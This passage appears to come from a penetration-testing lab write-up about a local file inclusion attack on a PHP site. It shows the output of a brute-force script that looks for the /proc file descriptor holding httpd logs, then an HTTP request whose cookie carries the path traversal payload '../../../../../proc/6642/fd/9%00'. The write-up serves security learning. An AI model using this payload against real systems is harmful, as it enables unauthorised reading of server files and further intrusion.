 <p style="text-align:justify;">
After executing the script above, we see the following response
</p>


<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>/home/kali/Desktop</b></span># python3 bruteforcer.py

781

781

781

781

781

781

781

5247076

781

781

</pre>

<p style="text-align:justify;">
As we see above, at the eighth request, the response returned the content length of <b>5247076</b>, which indicates that we might read the right file which is the file with number 9. As we see below the HTTP request/response pair shows the <b>httpd</b> logs contained inside the file <code  style="background-color: lightgrey; color:black;">/proc/6642/fd/9</code>
</p>

<i><b>HTTP Request :</b></i> 

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
GET /listings.php HTTP/1.1
Host: 192.168.201.3
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=6b82a05ec984697da862a3b2acf884c4; <span style="color:#cd0000;"><b>user=../../../../../proc/6642/fd/9%00</b></span>
Connection: close
</pre>
